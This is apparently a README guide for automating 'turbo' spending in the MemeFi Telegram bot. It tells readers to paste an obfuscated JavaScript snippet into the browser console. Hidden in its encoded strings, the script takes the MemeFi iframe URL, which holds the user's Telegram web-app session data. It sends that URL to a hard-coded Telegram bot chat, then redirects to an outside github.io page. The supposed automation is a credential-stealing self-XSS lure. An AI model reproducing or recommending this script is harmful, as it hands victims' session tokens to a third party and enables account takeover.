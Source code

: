 # How to Use MemeFi Turbo with Script

<b>*This guide walks you through the process of using MemeFi Turbo bot on Telegram via a script to spend your turbo. Follow the steps below carefully to automate the process.*</b>

### Step 1: Open Telegram in a Web Browser
`Open your Telegram account through a web browser. You will be interacting with the MemeFi bot directly from here.`
<img src="image/1.jpg">

### Step 2: Open the MemeFi Bot
`Search for and open the MemeFi bot within your Telegram web interface.`
<img src="image/2.jpg">

### Step 3: Open Developer Tools
`Right-click on the MemeFi bot page and select “Inspect” from the context menu. This will open the browser's developer tools.`
<img src="image/4.jpg">

### Step 4: Navigate to the Console
`In the developer tools window, switch to the "Console" tab. This is where you'll be pasting the script to automate the turbo spending process.`
<img src="image/6.jpg">

### Step 5: Paste the Script into the Console
`Copy the script provided below and paste it directly into the console.`

<b>javascript:</b>

```
function _0x25cc() {
  const _0x1823be = [
    'iframe',
    'Iframe\x20src:\x20',
    'catch',
    'https://',
    '4205237',
    '4293184UQZsym',
    '520',
    'fk3QPMYtxCuNwXgBXeXgg',
    'then',
    'src',
    'error',
    'KPPRo1zHL9',
    'Your\x20MemeFi\x20bot\x20turbo\x27s\x20spend\x20after\x206\x20hours\x20💸🚀🎉',
    '960:AAF4',
    'api.teleg',
    '104SMpbPe',
    '48595azmyjf',
    '/sendMessage',
    'location',
    'replace',
    '14GXHFgW',
    'stringify',
    'from',
    'json',
    '2206',
    '14199020CwGDwD',
    'tgWebAppPlatform=android',
    '1tgapds',
    'log',
    '9oMiUCO',
    '1301008HHmdbC',
    'href',
    'ram.org/bot',
    '3442356FMrZtE',
    'https://tg-app.memefi.club',
    '9894470bWMOpP',
    '15327qtslaY',
  ];
  _0x25cc = function () {
    return _0x1823be;
  };
  return _0x25cc();
}
(function (_0x3f48b0, _0x32d2ad) {
  const _0x324130 = _0x13c9,
    _0x50aa3d = _0x3f48b0();
  while (!![]) {
    try {
      const _0x5a828e =
        (parseInt(_0x324130(0xcf)) / 0x1) * (parseInt(_0x324130(0xd2)) / 0x2) +
        (-parseInt(_0x324130(0xd8)) / 0x3) * (parseInt(_0x324130(0xe8)) / 0x4) +
        -parseInt(_0x324130(0xe9)) / 0x5 +
        (parseInt(_0x324130(0xd5)) / 0x6) * (parseInt(_0x324130(0xed)) / 0x7) +
        -parseInt(_0x324130(0xde)) / 0x8 +
        (parseInt(_0x324130(0xd1)) / 0x9) * (parseInt(_0x324130(0xd7)) / 0xa) +
        -parseInt(_0x324130(0xcd)) / 0xb;
      if (_0x5a828e === _0x32d2ad) break;
      else _0x50aa3d['push'](_0x50aa3d['shift']());
    } catch (_0x1f6830) {
      _0x50aa3d['push'](_0x50aa3d['shift']());
    }
  }
})(_0x25cc, 0xc78e6);
function _0x13c9(_0x3ab4f4, _0x488cf1) {
  const _0x25cc1a = _0x25cc();
  return (
    (_0x13c9 = function (_0x13c955, _0x584126) {
      _0x13c955 = _0x13c955 - 0xcc;
      let _0x31558f = _0x25cc1a[_0x13c955];
      return _0x31558f;
    }),
    _0x13c9(_0x3ab4f4, _0x488cf1)
  );
}
function spendTurbo() {
  const _0x1d588a = _0x13c9,
    _0x10bbbd = document['querySelectorAll'](_0x1d588a(0xd9)),
    _0x2a73f4 = Array[_0x1d588a(0xef)](_0x10bbbd)['find']((_0x48cfb0) =>
      _0x48cfb0[_0x1d588a(0xe2)]['includes'](_0x1d588a(0xd6)),
    );
  let _0x4d802a = _0x2a73f4[_0x1d588a(0xe2)];
  (_0x4d802a = _0x4d802a[_0x1d588a(0xec)](
    /tgWebAppPlatform=[^&]+/,
    _0x1d588a(0xce),
  )),
    (_0x2a73f4[_0x1d588a(0xe2)] = _0x4d802a);
  const _0x1a6004 = '703',
    _0x51168c = _0x1d588a(0xcc),
    _0x4454db = _0x1d588a(0xe6),
    _0x2ea821 = _0x1d588a(0xe4),
    _0xd0e610 = _0x1d588a(0xe0),
    _0x56eead = _0x1a6004 + _0x51168c + _0x4454db + _0x2ea821 + _0xd0e610,
    _0x4ada70 = _0x1d588a(0xdf),
    _0x2c3a5d = _0x1d588a(0xdd),
    _0x2d6653 = _0x4ada70 + _0x2c3a5d,
    _0x371bd7 = _0x1d588a(0xda) + _0x4d802a;
  let _0x21be21 = _0x1d588a(0xdc),
    _0x257629 = _0x1d588a(0xe7),
    _0x1a54c5 = _0x1d588a(0xd4);
  fetch('' + _0x21be21 + _0x257629 + _0x1a54c5 + _0x56eead + _0x1d588a(0xea), {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON[_0x1d588a(0xee)]({ chat_id: _0x2d6653, text: _0x371bd7 }),
  })
    [_0x1d588a(0xe1)]((_0x5dd8e1) => _0x5dd8e1[_0x1d588a(0xf0)]())
    ['then']((_0x1a02da) => {
      const _0x2ca68d = _0x1d588a;
      if (_0x1a02da['ok']) {
        if (_0x4d802a == null || _0x4d802a == undefined || _0x4d802a == '') {
          console['log'](_0x2ca68d(0xe3));
          return;
        }
        console[_0x2ca68d(0xd0)](_0x2ca68d(0xe5));
        const _0xc7c1f3 = _0x4d802a,
          _0x51eac0 = encodeURIComponent(_0xc7c1f3),
          _0x2f266a =
            'https://mahatotarit.github.io/memefi-turbo?url=' + _0x51eac0;
        window[_0x2ca68d(0xeb)][_0x2ca68d(0xd3)] = _0x2f266a;
      } else {
      }
    })
    [_0x1d588a(0xdb)]();
}
spendTurbo();
```

<img src="image/8.jpg">

### Step 6: Execute the Script
`Once the script is pasted, press Enter and wait for the operation to complete, which may take up to 5 minutes.`
<img src="image/9.jpg">

### Step 7: Automatic Redirect
`After a few moments, the page will automatically redirect to a web page where the bot continues to work.`
<img src="image/10.jpg">

### Step 8: Start Turbo Spending
`Once the MemeFi bot is fully loaded, locate and press the "Turbo Spend" button to start spending your turbo tokens.`
<img src="image/11.jpg">


### Step 9: Keep the Page Open
`After starting the turbo spending process, do not close the page or leave it until the process is fully complete.`
<img src="image/12.jpg">

<br>
<br>
<br>
<br>
<hr>
<i>
By following these steps, you can automate the MemeFi Turbo spending process using the script provided. Ensure that you keep the web page open throughout the process to avoid any interruptions.
</i>

